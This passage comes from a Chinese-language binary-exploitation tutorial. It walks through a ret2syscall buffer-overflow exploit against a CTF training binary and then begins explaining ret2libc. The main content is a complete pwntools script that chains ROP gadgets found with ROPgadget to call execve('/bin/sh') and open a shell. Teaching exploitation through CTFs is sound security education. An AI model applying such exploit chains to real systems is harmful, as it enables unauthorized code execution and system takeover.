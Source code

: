 同时，也找到对应的地址了。

下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。

```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("rop")
p = elf.process()

#--------ret2syscall--------#

offset = 112
# ROPgadget --binary rop --only "pop|ret" | grep eax
pop_eax = 0x080bb196
# ROPgadget --binary rop --string "/bin/sh"
bin_sh = 0x080be408
# ROPgadget --binary rop --only "pop|ret" | grep ecx
pop_edx_ecx_ebx = 0x0806eb90
# ROPgadget --binary rop --only "int"
int_0x80 = 0x08049421

payload = flat(
    b"A" * offset,
    pop_eax, 0xb,
    pop_edx_ecx_ebx, 0, 0, bin_sh,
    int_0x80, # syscall
)

p.sendlineafter("What do you plan to do?\n", payload)
p.interactive()
```

### 题目

- [rain.cs.nctu.edu.tw: rop](https://bamboofox.cs.nctu.edu.tw/courses/1/challenges/4)

## ret2libc

### 原理

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置(即函数对应的 got表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

### 例子

我们由简单到难分别给出三个例子。
